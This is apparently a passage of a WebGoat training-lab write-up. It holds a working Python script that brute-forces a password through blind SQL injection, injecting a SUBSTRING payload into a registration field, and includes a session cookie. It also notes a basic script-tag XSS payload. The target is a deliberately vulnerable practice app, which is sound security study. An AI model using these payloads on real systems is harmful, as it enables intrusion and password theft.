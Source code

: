 \begin{verbatim}
Automating this into a brute-force attack..
```python
import requests
import json
## Python script for 'blind' SQL injection

url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
webgoat_session = "OYyd-Kr3f_erhZt5QnVA1-caG64u8PYxcXIt602C"

header = {
"Cookie": "JSESSIONID="+ webgoat_session,
}
password = ""

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

pw_index = 1
for length in range(1,25):
    for letter in alphabet:

                payload = f"tom' AND SUBSTRING(password,{pw_index},1)='{letter}"
        
        data = {
        'username_reg': payload,    
        'email_reg': 'a@a', 
        'password_reg': 'a',    
        'confirm_password_reg': 'a'     
        }

        ## Do a request
        r = requests.put(url,headers=header, data=data)
        ## Grab the "feedback part of the response"
        text = r.json()['feedback']
        if "already exists" in text:
            password += letter
            pw_index +=1
            print(password)
\end{verbatim}

Giving this result: {[}{[}Pasted image 20240827142530.png{]}{]}

\hypertarget{cross-site-scripting}{%
\subsubsection{4.4 Cross Site Scripting}\label{cross-site-scripting}}

XSS (7) All the quantities only accepts integers, putting a
\texttt{\textless{}script\textgreater{}} tags in something on ``three
digit access code'' triggers an alert that page i being manipulated,
putting
\texttt{\textless{}script\textgreater{}alert(test)\textless{}/script\textgreater{}}
works

XSS(10) route handlers

XSS (11) {[}{[}Pasted image 20240827163004.png{]}{]}

\hypertarget{cross-site-scripting-stored}{%
\subsubsection{Cross Site Scripting
(Stored)}\label{cross-site-scripting-stored}}

